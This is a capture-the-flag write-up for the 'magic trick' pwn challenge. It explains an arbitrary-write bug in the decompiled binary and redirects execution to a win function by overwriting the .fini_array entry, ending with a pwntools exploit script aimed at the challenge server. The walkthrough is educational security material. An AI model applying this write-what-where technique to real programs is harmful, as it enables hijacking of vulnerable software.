

# magic trick
### submited and solved by revolution

```c
unsigned __int64 magic()
{
  __int64 v1; // [rsp+0h] [rbp-20h] BYREF
  _QWORD *v2; // [rsp+8h] [rbp-18h] BYREF
  unsigned __int64 v3; // [rsp+18h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  puts("What do you want to write");
  __isoc99_scanf("%llu", &v1);
  puts("Where do you want to write it");
  __isoc99_scanf("%llu", &v2);
  puts("thanks");
  *v2 = v1;
  return __readfsqword(0x28u) ^ v3;
}
```

Lets devide the decompiled code of the given binary code into two requests and an action: a request for a number indicating things to write, a request indicating a number indicating a place to write to and the writing action itself. (The requests are asking for a long long unsigned which its length is 8 bytes, perfect for representing addresses of the binary).

In this kind of challenges its common that writing to the got (the section containing the used dynamicaly linked functions addresses) is the solution as writing to this section can cause a code redirection to a function we want for example if we will change the got puts address at the next time puts will get called the code will be be redirected.

This solution does not work because of the simple fact that no function which is refrenced in the got get called after the writing action, hence we need to find some where else in the binary that will get called after the writing, I found the 
.finiarray section that contains pointers to functions:

```
The sections .pre_initarray, .init_array and .fini_array provide arrays of runtime pre-initialization, initialization, and termination functions, respectively. When creating a dynamic object, the link-editor identifies these arrays with the .dynamic tag pairs DT_PREINIT_[ARRAY/ARRAYSZ], DT_INIT_[ARRAY/ARRAYSZ], and DT_FINI_[ARRAY/ARRAYSZ] accordingly. These tags identify the associated sections so that the sections can be called by the runtime linker. A pre-initialization array is applicable to dynamic executables only.
```
In our binary it looks like this:


```
.fini_array:0000000000600A00 _fini_array     segment qword public 'DATA' use64
.fini_array:0000000000600A00                 assume cs:_fini_array
.fini_array:0000000000600A00                 ;org 600A00h
.fini_array:0000000000600A00 __do_global_dtors_aux_fini_array_entry dq offset __do_global_dtors_aux
.fini_array:0000000000600A00                                         ; DATA XREF: __libc_csu_init+13↑o
.fini_array:0000000000600A00 _fini_array     ends                    ; Alternative name is '__init_array_end'
```

given this address we can write to it the win address and when the process will run the .finiarray list it will run this as well, and there for this exploit:

```python
from pwn import *

rem = 1

if(rem):
	p = remote("dctf-chall-magic-trick.westeurope.azurecontainer.io", 7481)
else:
	p = process("./magic_trick")
	input("ready... ")

print(p.recvuntil("What do you want to write").decode())
p.sendline(str(int(0x0000000000400667))) # win

print(p.recvuntil("Where do you want to write it").decode())
p.sendline(str(int(0x0000000000600A00))) #fini array

p.interactive()
```

running this gives the following results:




